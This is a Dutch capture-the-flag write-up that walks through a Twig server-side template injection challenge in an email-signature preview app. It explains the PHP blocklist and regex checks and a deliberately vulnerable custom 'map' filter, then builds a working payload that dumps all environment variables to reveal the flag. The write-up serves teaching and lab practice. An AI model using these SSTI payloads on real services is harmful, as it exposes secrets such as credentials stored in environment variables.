




# Writeup Signature-Studio

De challenge draait om een website waarmee we een Twig-template voor een e-mailhandtekening kunnen previewen.

De webapp geeft daarbij aan dat er een template policy actief is. Onze input wordt dus gecontroleerd voordat Twig deze rendert.



## Local opzetten

Als je zelf wilt testen met stukjes code weghalen moet je de challenge opnieuw builden:

```bash
docker compose down
docker compose build --no-cache
docker compose up -d
```

De applicatie is daarna beschikbaar op:

```text
http://localhost:8094
```

## Eerste checks

Omdat onze input als Twig-template wordt gerenderd, kunnen we eerst een simpele ssti proberen:
Handige payloads staan op [PayloadsAllTheThings](https://swisskyrepo.github.io/PayloadsAllTheThings/Server%20Side%20Template%20Injection/PHP/#twig-basic-injection)

```twig
{{ 7 * 7 }}
```

Als dit `49` teruggeeft weten we dat Twig-expressies worden uitgevoerd, maar wat we willen is de environment variable `FLAG`, die we in `docker-compose.yml` terugzien:

```yaml
environment:
  FLAG: "CTF{f4k3_fl4g_f0r_t3st1ng}"
```

Een directe manier om deze uit te lezen zou zijn:

```twig
{{ getenv('FLAG') }}
```

Deze payload wordt geblokkeerd met de melding:

```text
Twig function calls are disabled.
```



## Source checken

De template komt rechtstreeks uit de POST-parameter `template`:

```php
$source = $_POST['template'] ?? '<strong>Kind regards,</strong><br>Communications desk';
```

Er zit eerst een limiet van 4096 bytes op de input:

```php
if (!is_string($source) || strlen($source) > 4096) {
    $error = 'Template must be at most 4096 bytes.';
}
```

Daarna controleert de applicatie op Twig-statements, comments en tekens die voor attribute access kunnen worden gebruikt:

```php
if (str_contains($source, '{%') || str_contains($source, '{#') || preg_match('/(?:->|::|\.)/', $source)) {
    throw new RuntimeException('Statements, comments and attribute access are disabled.');
}
```

De regex blokkeert `.`, `->` en `::`, waardoor attribute access en iedere andere input met een punt wordt geweigerd. We kunnen ook geen `` gebruiken. Normale Twig-expressies met `{{ }}` zijn echter nog wel toegestaan.

Vervolgens worden alle gebruikte filters uit de input gehaald. Alleen deze vier filters staan op de allowlist:

```php
preg_match_all('/\|\s*([a-zA-Z_]\w*)/', $source, $matches);
if (array_diff($matches[1], ['escape', 'map', 'first', 'join'])) {
    throw new RuntimeException('That filter is not approved.');
}
```

De enige toegestane filters zijn:

```text
escape
map
first
join
```

De laatste controle zoekt naar directe functiecalls in de vorm `naam(...)`, zoals `getenv(...)`. Strings en goedgekeurde filtercalls worden eerst uit de input gehaald. Als er daarna nog een patroon zoals `naam(...)` overblijft, wordt de template geblokkeerd:

```php
$withoutStrings = preg_replace('/([\'\"])(?:\\\\.|(?!\1).)*\1/s', "''", $source);
$withoutFilters = preg_replace('/\|\s*(?:escape|map|first|join)\s*(?=\()/', '|', $withoutStrings);
if (preg_match('/\b[a-zA-Z_]\w*\s*\(/', $withoutFilters)) {
    throw new RuntimeException('Twig function calls are disabled.');
}
```

Dit verklaart de getoonde foutmelding: `getenv(` blijft na deze bewerkingen zichtbaar en matcht de laatste regex. Zonder deze check zou `getenv()` niet gelijk werken, omdat PHP-functies niet standaard als Twig-functions beschikbaar zijn. De echte vuln zit in het custom `map`-filter dat zelf `getenv(null)` uitvoert.

## OK wat nu

De interessante stuk zit in de custom implementatie van het toegestane `map` filter:

```php
$twig->addFilter(new TwigFilter('map', static function (iterable $items, mixed $callable): array {
    if ($callable !== 'getenv') throw new RuntimeException('Template rejected.');
    $result = [];
    foreach ($items as $key => $value) {
        if ($value !== null) throw new RuntimeException('Template rejected.');
        $result[$key] = getenv(null);
    }
    return $result;
}));
```

Dit filter accept juist de string `getenv`, maar alleen als ieder item in de input `null` is. Voor ieder item wordt vervolgens dit uitgevoerd:

```php
getenv(null)
```

In PHP geeft `getenv(null)` niet één env var terug, maar een array met alle environment vars. Daar zit dus ook de value van `FLAG` tussen.


We geven daarom een array met één `null`-waarde aan `map`:

```twig
{{ [null]|map('getenv') }}
```

Het resultaat heeft dan ongeveer deze structuur:

```text
[
    [
        "X" => "...",
        "FLAG" => "CTF{f4k3_fl4g_f0r_t3st1ng}",
        "Y" => "..."
    ]
]
```

De buitenste array komt van `map`. Met `first` pakken we daar de eerste waarde uit, oftewel de volledige environment-array:

```twig
{{ [null]|map('getenv')|first }}
```

Een array wordt niet direct netjes als tekst gerenderd. Met het allowed `join` filter voegen we daarom alle environment-waarden samen:

```twig
{{ [null]|map('getenv')|first|join(',') }}
```

Ook deze payload komt door de function-callcheck. `map(` en `join(` zijn goedgekeurde filtercalls en worden voor de laatste regex verwijderd. `getenv` staat alleen als stringarg in de payload en strings worden ook ignored.

## Solve

De uiteindelijke solve payload is:

```twig
{{[null]|map('getenv')|first|join(',')}}
```

De payload doet dus het volgende:

1. `[null]` maakt een input voor de custom `map`.
2. `map('getenv')` voert `getenv(null)` uit en retourneert een buitenste array waarvan het eerste element de volledige environment-array is.
3. `first` haalt deze environment-array uit het resultaat van `map`.
4. `join(',')` zet alle waarden om naar één string die daadwerkelijk rendert.

Na het renderen staat de flag tussen de andere environment-waarden in de preview:


